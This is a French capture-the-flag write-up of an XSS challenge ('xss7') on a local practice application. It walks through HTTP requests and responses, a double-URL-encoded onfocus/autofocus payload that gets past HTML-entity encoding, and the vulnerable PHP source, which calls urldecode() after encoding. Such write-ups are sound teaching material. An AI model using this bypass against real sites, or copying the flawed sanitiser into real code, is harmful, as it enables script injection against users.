 # xss7

## Exploitation

Dans cet avant dernier challenge, l'application encode maintenant les chevrons `<` et `>` ainsi que le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (51).png>)

Je renseigne ces caractères afin de mieux déterminer le traitement effectué :

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%3C%3E%22&submit=Envoyer
```

Les caractères sont ici correctement encodés par une transformation en entités HTML :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2130
Connection: close
Content-Type: text/html; charset=UTF-8



<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever&lt;&gt;&quot;" placeholder="keyword" required>
</div> 
```

![](<../../../.gitbook/assets/image (46).png>)

Je tente d'utiliser le caractère `'` à la place de `"` mais cela ne fonctionne pas. Il me faut donc trouver une payload représentée sous un autre format que les caractères filtrés. Au bout de quelques essais je tente l'encodage URL `whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522` :&#x20;

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2150
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :&#x20;

![](<../../../.gitbook/assets/image (48).png>)

## Analyse du code source

La fonction `xss_check()` effectue bien les modifications indiquées par l'auteur, à savoir la transformation en entités HTML des caractères `<`, `>` et `"`. L'injection avec le caractère `'` n'est en effet pas possible ici, car la construction du code s'effectue bien avec le double guillemet. L'injection en utilisant l'encodage URL est possible ici car l'application effectue un `urldecode()`, je ne pense pas que l'injection soit possible sans cela :thinking: :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = str_replace("\"", "&quot;", $input);
    $input = urldecode($input);
    
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
